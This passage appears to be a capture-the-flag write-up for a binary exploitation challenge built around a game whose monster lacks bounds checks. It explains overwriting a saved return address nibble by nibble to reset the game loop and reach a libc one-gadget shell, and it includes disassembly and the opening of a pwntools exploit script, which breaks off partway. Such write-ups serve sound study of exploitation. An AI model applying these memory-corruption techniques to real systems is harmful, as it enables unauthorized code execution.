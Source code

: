 # Looping

As the monster has no bound checks, it will hunt us in memory.
Due to the bound checks of the player, we can only navigate to a smaller `y` position and therefore we can't escape the monster.
This limits us to approx 17 moves, what wasn't enough to jump to the magic gadget.
One trick to circumvent tihs issue is to overwrite the return address in `main_loop` in the following way, to reset the game:


```
   0x00005555555565cc <+284>:   call   0x55555555637b <show_tutorial>     <= overwritten rip
   0x00005555555565d1 <+289>:   lea    rax,[rbp-0x820]
   0x00005555555565d8 <+296>:   mov    rdi,rax
   0x00005555555565db <+299>:   call   0x5555555560c0 <main_loop>
   0x00005555555565e0 <+304>:   mov    QWORD PTR [rbp-0x828],rax          <= saved rip
```

Similar to the previous step, we can compute the player position, required to overwrite the LSB of the return address, what happens to be `(2,23)`.
By decrementing the return address by 20, we can reset the game and have another try.
This is done each time, after modifying one nibble of the return address to `__libc__start_main`.

# Exploit

By looking at the given libc, our saved return address should be `libc+0x202e1` and one possible gadget would be `libc+0x3f306`.
Therefore, we have to change the nibbles in the following way:

```
0x202e1
0x3f306
      ^+5  +++++
     ^ -14 22222222222222
    ^  +1  d+
   ^   +15 d111111111111111
  ^    +1  dd+
```

The actions are chosen, so that no carry bit is created for the lower nibble.
Even though this approach was working locally it did not spawn a shell on the server.
The reason was, that the libc offset might create carry bits, that we have to take into account.
Therefore first we had to leak saved `rip` and calculate the actual difference.
The overall strategy is unchanged.

<div id="terminal-exploit"></div>
<script>render_typescript("exploit.typescript","terminal-exploit",30);  </script>

```python
import pwn
import sys
import re

#game_sequences
out_of_bounds = "ssddadsdwwwwwwwaawasssssssssssaawwaaawwwwwwwwwwwwwww"
jump_libc_ret = "w"*(255-236)
loop = "d"*9 + "w"*(236-23) + "a"*7 + "-"*20 + "q"

#leak saved_rip return address
def leak_and_loop(r):
    r.recvuntil("============ TUTORIAL ============")
    for i in xrange(6):
        r.sendline("")
    r.recvuntil("RENDER SINGLE IMAGE")

    #jump to byte
```